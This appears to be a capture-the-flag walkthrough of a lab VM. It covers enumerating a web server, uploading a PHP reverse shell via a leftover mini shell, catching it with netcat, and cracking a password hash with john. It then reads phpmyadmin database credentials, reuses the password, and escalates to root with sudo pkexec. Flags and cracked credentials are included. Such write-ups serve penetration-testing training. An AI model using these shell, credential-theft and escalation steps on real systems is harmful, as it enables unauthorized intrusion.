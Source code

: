 p-80 
- default apache2 page
- /phpmyadmin
- /robots.txt
	- Allow: Enum_this_Box
- /phpmyadmin/js/whitelist.php?
- /mini.php 
	- Some hacker has left mini shell here. I can use this to upload a rev shell most likely.

I upload pentester rev shell and navigate to shell.php which gets me on the machine.

```php
rlwrap nc -nlvp 8443
```

`http://192.168.231.132/shell.php`

stable shell

```php
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

I first look for text files in the users home directory but i don't find anything, i then run a scan for SUID files:

```php
find / -perm -u=s  2>/dev/null
```

This reveals pkexec has SUID set, but the user does not have sudo rights.

I find the first flag at:
`cat /var/www/local.txt`
`5188bb02d8ac1a3db4af5989e4324a83`

Linpeas

Sudo version 1.8.21p2 

Check vuln versions of sudo

```php
searchsploit sudo
```

users
`oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash`

- I think that is giving away the password for some reason. Linpeas confirms this later in the scan.

I echo the details into a file for john and crack the password:

```php
echo 'oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash' > hash.txt
```

```php
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Name: oracle
Pass: hiphop        

User does not have sudo access.

I need a user that has sudo privileges, and then i can use pkexec for root.

Possible config files: `"/etc/phpmyadmin/htpasswd.setup"`

```php
cd /etc/phpmyadmin/
```

One file i could access if i was on the www-data account, so i use exit to go back to the first account so i can read the file.
`config-db.php`

db-username: phpmyadmin
db-password: tgbzhnujm!

I try the new password on the other user accounts, and it gives me access to karla who has sudo privileges allowing me to escalate to root with the SUID exploit i found early.

```php
su karla
```
- password: tgbzhnujm!

```php
cd /usr/bin
```

root
```php
sudo pkexec /bin/sh
```

```php
cat /root/proof.txt
```

`cd1a25d60325f0edbd842fb78c486db6`


